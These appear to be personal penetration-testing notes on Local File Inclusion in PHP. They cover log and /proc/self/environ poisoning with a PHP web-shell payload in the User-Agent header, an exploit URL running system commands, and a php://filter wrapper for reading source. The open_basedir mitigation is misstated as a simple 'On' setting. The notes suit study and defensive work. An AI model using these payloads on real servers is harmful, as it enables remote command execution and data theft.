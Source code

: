 # LFI

LFI mitigiation:
~~~
open_basedir = On in php.ini

(if this is on, PHP can't access any file outside the specified directory) , essentially kills the purpose of include statements in other directories such as libraries)
~~~

Techniques which can be used to leverage LFI:
~~~
- /proc/self/environ
- /proc/self/fd
- /var/log/apache2/access.log
- /var/log/auth.log
- php://input wrapper
- php://filter wrapper
- data:wrapper
~~~

Great source for in-depth detail of exploiting vulnerabilities: https://resources.infosecinstitute.com/local-file-inclusion-code-execution/

## /proc/self/environ

Contains environment variables
   - REMOTE_PORT
   - HTTP_USER_AGENT
   - etc

`SHOULD NOT BE ACCESSIBLE FROM NON-ROOT USERS`

Exploit:

Intercept request and edit the User-Agent, and replace with php executable code.

Example:
User-Agent: <?php system($_GET['cmd']); ?>

After the request is sent to the server,

include /proc/self/environ in the LFI, and append your PHP code.

http://localhost/index.php?file=/proc/self/environ&cmd=whoami

## /var/log/apache2/access.log

`Should not be accessible from non-root users`

Access.log logs all requests to the web server (including 404s), though excludes 400s (bad server request)

To exploit, send a HTTP request containing php code using nc & include access.log using the LFI

(Images from Infosec Institute)

![nc](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/080416_0223_FromLocalFi8.png)

## PHP Filters

Convert file output to base64:

The reason you would want to convert a php file to base64 is because if the php file is included in the LFI, the php file itself will execute and you will not be able to see the source code.

By using the filter to convert the output to base64, we can then decode the output and see the source

~~~
php://filter/read=convert.base64-encode/resource=FILE
~~~

Read about the different PHP filters: https://highon.coffee/blog/lfi-cheat-sheet/

# include subpage about 'files of interest' in LFI



